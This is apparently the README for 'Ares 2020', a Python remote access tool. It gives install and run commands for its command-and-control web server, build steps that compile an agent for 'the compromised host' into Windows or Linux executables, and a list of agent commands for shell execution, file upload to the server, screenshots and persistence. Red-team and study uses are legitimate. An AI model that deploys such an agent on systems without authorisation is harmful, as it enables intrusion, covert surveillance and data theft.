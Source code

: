 # Ares 2020

Ares is a Python Remote Access Tool.

__Warning: Only use this software according to your current legislation. Misuse of this software can raise legal and ethical issues which I don't support nor can be held responsible for.__

Ares is made of two main programs:

- A Command aNd Control server, which is a Web interface to administer the agents
- An agent program, which is run on the compromised host, and ensures communication with the CNC

The Web interface can be run on any server running Python3. The agent uses Python2 and can be compiled to native executables using **pyinstaller**.

## Server

Install the Python requirements for the server:

```
cd server
pip3 install -r requirements.txt
```

Initialize the database:

```
python3 ares.py initdb
```

Run with the builtin (debug) server:

```
python3 ares.py runserver -h 0.0.0.0 -p 8080 --threaded
```

Or run using gunicorn:

```
# HTTP server
gunicorn

# HTTPS server using self-signed certificate (if no valid certificate available)
openssl req -x509 -newkey rsa:4096 -nodes -out cert.pem -keyout key.pem -days 1365
gunicorn  ares:app -b 0.0.0.0:8080 --threads 20 --certfile cert.pem --keyfile key.pem
```

The server should now be accessible on http(s)://localhost:8080

## Agent

Install the Python requirements for the agent:

```
cd agent
pip3 install -r requirements.txt
```

For compiling Windows executables on Linux, wine is needed:

```
./wine_setup.sh
```

### Building an agent

Build a new agent to a standalone binary:

```
# Windows
./builder.py --server http://localhost:8080 -o agent.exe -p windows

# Linux
./builder.py --server http://localhost:8080 -o agent -p linux
```

### Supported agent commands

```
<any shell command>
Executes the command in a shell and return its output.

upload <local_file>
Uploads <local_file> to server.

download <url> <destination>
Downloads a file through HTTP(S).

zip <archive_name> <folder>
Creates a zip archive of the folder.

screenshot
Takes a screenshot.

persist
Installs the agent.

clean
Uninstalls the agent.

exit
Kills the agent.

help
This help.
```

